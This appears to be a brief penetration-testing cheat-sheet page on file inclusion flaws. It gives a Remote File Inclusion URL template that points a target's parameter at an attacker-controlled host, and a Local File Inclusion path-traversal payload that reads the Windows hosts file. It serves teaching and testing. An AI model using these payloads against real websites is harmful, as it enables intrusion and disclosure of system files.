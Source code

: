 # File inclusion

## <mark style="color:green;">Remote File Inclusion</mark>

Also known as RFI, it is possible for an attacker to load a remote file on the host using protocols like HTTP, FTP etc.

{% code overflow="wrap" lineNumbers="true" %}
```url
http://$url/$query?$value=//$myip/somefile
```
{% endcode %}

***



## <mark style="color:green;">Local File Inclusion</mark>

Also known as LFI, able to get a website to include a file that was not intended to be an option for this application

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/$query?$value=../../../../../../WINDOWS/system32/drivers/etc/hosts #Common file for save host name and ip in windows, we use ../ to get to the root directory C:\
```
{% endcode %}

***



